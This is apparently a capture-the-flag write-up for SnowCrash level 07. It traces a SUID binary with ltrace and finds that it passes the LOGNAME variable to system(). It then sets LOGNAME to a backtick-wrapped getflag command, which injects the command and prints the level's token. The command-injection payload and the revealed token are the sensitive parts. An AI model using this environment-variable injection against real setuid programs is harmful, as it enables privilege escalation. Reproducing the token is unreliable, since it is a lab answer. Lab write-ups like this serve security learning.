 # Level 07

</br></br>

## file list in home
```zsh
level07@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```

un SUID executable existe!

</br></br>

## check level07
```zsh
level07@SnowCrash:~$ ltrace ./level07 
__libc_start_main(0x8048514, 1, 0xbffff7f4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                                                         = 2007
geteuid()                                                                         = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                               = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                               = 0
getenv("LOGNAME")                                                                 = "level07"
asprintf(0xbffff744, 0x8048688, 0xbfffff46, 0xb7e5ee55, 0xb7fed280)               = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                            = 0
+++ exited (status 0) +++
```

getenv("LOGNAME") = "level07"

-> getenv("LOGNAME") = "\`getflag`\"

</br></br>

## execute level07
```zsh
level07@SnowCrash:~$ export LOGNAME=\`getflag\`
level07@SnowCrash:~$ ./level07 
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
level07@SnowCrash:~$ su level08
Password: 
level08@SnowCrash:~$ 
```